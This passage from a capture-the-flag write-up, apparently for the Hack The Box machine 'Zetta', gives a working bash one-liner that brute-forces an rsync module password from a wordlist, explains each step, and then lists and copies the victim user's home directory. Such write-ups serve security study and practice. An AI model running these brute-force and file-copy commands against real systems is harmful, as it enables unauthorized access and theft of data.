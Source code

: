 

Now I can loop over my wordlist, setting the environment variable, and
try to log in with a `bash` one-liner:



    root@kali# cat 10-million-password-list-top-100000-8char.txt | while read pass; do export RSYNC_PASSWORD=${pass}; rsync --list-only rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy 2>&1 | grep -q "auth failed on module home_roy" || { echo "[+] Found password: ${RSYNC_PASSWORD}"; break; } done
    [+] Found password: computer



Breaking that down:

-   Dumps the password list into a `while read` loop.
-   For each password, it saves it to the environment variable with
    \`export.
-   It then tries to `rsync`, piping the results (both stdout and
    stderr) into a `grep`.
-   The `grep` will match on "auth failed on module home_roy", and
    return true if matched.
-   `||` is an or, so if the previous command (`grep`) failed (doesn't
    find that failure note), it will run the commands between the `{ }`.
-   In this case, that means print the password, and then exit the loop.

### Copy Files

Now with roy's password, I can access that home directory:



    root@kali# rsync --list-only rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy 
    ...[snip]...
    drwxr-xr-x          4,096 2019/07/28 06:52:29 .
    lrwxrwxrwx              9 2019/07/27 06:57:06 .bash_history
    -rw-r--r--            220 2019/07/27 03:03:28 .bash_logout
    -rw-r--r--          3,526 2019/07/27 03:03:28 .bashrc
    -rw-r--r--            807 2019/07/27 03:03:28 .profile
    -rw-------          4,752 2019/07/27 05:24:24 .tudu.xml
    -r--r--r--             33 2019/07/27 05:24:24 user.txt



I can copy the files to my host:



    root@kali# rsync -a rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy/ .
    ...[snip]...
    rsync: symlink "/media/sf_CTFs/hackthebox/zetta-10.10.10.156/rsync/.bash_history" -> "/dev/null" failed: Operation not permitted (1)
    rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1677) [generator=3.1.3]



I can't get `.bash_history` because it's linked to `/dev/null`, but I
can get everything else, including `user.txt`:
